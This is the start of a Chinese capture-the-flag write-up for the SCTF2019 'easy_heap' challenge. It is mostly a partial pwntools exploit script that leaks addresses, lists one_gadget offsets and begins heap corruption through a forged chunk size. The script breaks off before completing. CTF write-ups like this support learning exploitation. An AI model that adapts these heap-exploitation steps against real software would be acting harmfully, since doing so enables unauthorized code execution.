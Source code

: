 ```yaml
---
title: easy_heap
categories:
- SCTF2019
---
```

# SCTF2019 easy_heap

## 解法1

和姚老板的题完全一样，exp稍微改改就过了

### exp.py

```py
#coding=utf-8
from pwn import *
context.update(arch='amd64',os='linux',log_level="DEBUG")
context.terminal = ['tmux','split','-h']
debug = 1
gadgets = [0x45216,0x4526a,0xf02a4,0xf1147]
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
def Alloc(p,size):
    p.recvuntil('>> ')
    p.sendline('1')
    p.recvuntil('Size: ')
    p.sendline(str(size))
    p.recvuntil('Address 0x')
    address = int(p.recvline().strip('\n'),16)
    return address

def Delete(p,index):
    p.recvuntil('>> ')
    p.sendline('2')
    p.recvuntil('Index: ')
    p.sendline(str(index))

def Fill(p,index,content):
    p.recvuntil('>> ')
    p.sendline('3')
    p.recvuntil('Index: ')
    p.sendline(str(index))
    p.recvuntil('Content: ')
    p.send(content)

def exp(p):
    p.recvuntil('Mmap: 0x')
    map_addr = int(p.recvline().strip('\n'),16)
    log.success('map addr => ' + hex(map_addr))
    code_base = Alloc(p,0x88) - 0x202068 #0
    chunk_arr = code_base + 0x202060
    log.success('program loading base => ' + hex(code_base))
    #leak libc
    Alloc(p,0x38)#1
    Alloc(p,0x68)#2
    Alloc(p,0xf8)#3
    Alloc(p,0x30)#4
    #
    Fill(p,2,'a'*0x60+p64(0x140))
    Delete(p,0)
    Delete(p,3)
```